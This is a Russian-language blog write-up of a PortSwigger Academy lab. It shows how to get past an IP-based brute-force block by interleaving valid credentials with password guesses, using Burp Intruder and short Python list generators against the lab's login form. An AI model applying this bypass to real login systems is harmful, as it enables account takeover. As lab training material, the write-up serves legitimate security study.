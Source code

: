 ```yaml
---
title: "Broken brute-force protection, IP block"
date: 2025-09-25
tags: [web, authentication, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/password-based-vulnerabilities/authentication/password-based/lab-broken-bruteforce-protection-ip-block"
classes: wide
---
```


Для решения лабы нужно подобрать пароль учетки `carlos`. Для входа даны креды от другой учетной записи `wiener`:`peter`.

```
https://0acf002004444315819e8bac00de00b3.web-security-academy.net/
```

## Solution

Для начала зайду в ЛК, чтобы собрать `HTTP`-запрос для логина.

```http
POST /login HTTP/2
Host: 0acf002004444315819e8bac00de00b3.web-security-academy.net
Cookie: session=ogPofwrZEKbNt7g7PxHC52TnAaOEEabb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0acf002004444315819e8bac00de00b3.web-security-academy.net/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0acf002004444315819e8bac00de00b3.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=wiener&password=peter
```

Попробую перебрать пароли из [списка](https://portswigger.net/web-security/authentication/auth-lab-passwords). На этот раз сразу буду делать через `Burp Intruder`. 

```http
POST /login HTTP/2
Host: 0acf002004444315819e8bac00de00b3.web-security-academy.net

username=carlos&password=§passwd§
```

Начав атаку, я словил блокировку. Она появилась после четырех неверных попыток. Попробую чередовать перебор пароля и корректные данные каждую третью попытку.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Broken_brute-force_protection_IP_block/1.png){: height="200" .align-center}

Для этого нужно сгенерить следующий список логинов:

```
wiener
carlos
carlos
...
```

А каждый четвертый пароль должен быть `peter`. Напишу программу на `python`:

```python
for _ in range(50):
	print('wiener\ncarlos\ncarlos')
```

```
wiener
carlos
carlos
wiener
carlos
carlos
wiener
carlos
carlos
wiener
carlos
carlos
wiener
carlos
carlos
wiener
...
```

Сохраню пароли в файл `passwds`. Далее сгенерю новый список:

```python
with open('passwds', 'r') as f:
    lines = f.readlines()
    for i, line in enumerate(lines):
        if (i % 2 == 0):
            print('peter')
        print(line, end='')

```

Получился следующий список:

```
peter
123456
password
peter
12345678
qwerty
peter
123456789
12345
peter
1234
111111
peter
1234567
dragon
peter
123123
baseball
peter
abc123
football
peter
...
```

Теперь составлю атаку в `Intruder` типа `Pitchfork`. Пейлоад:

```http
POST /login HTTP/2
Host: 0acf002004444315819e8bac00de00b3.web-security-academy.net

username=§login§&password=§passwd§
```

В качестве 1-го списка вставлю логины. В качестве 2-го - пароли. Также нужно выставить один рабочий поток в `Resource Pool`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Broken_brute-force_protection_IP_block/2.png){: height="200" .align-center}

Далее запущу атаку. Чтобы получить правильный пароль, отфильтрую ответы по строке `carlos` и `Status code`, равному `3xx`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Broken_brute-force_protection_IP_block/3.png){: height="200" .align-center}

Зайду в ЛК:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Broken_brute-force_protection_IP_block/4.png){: height="200" .align-center}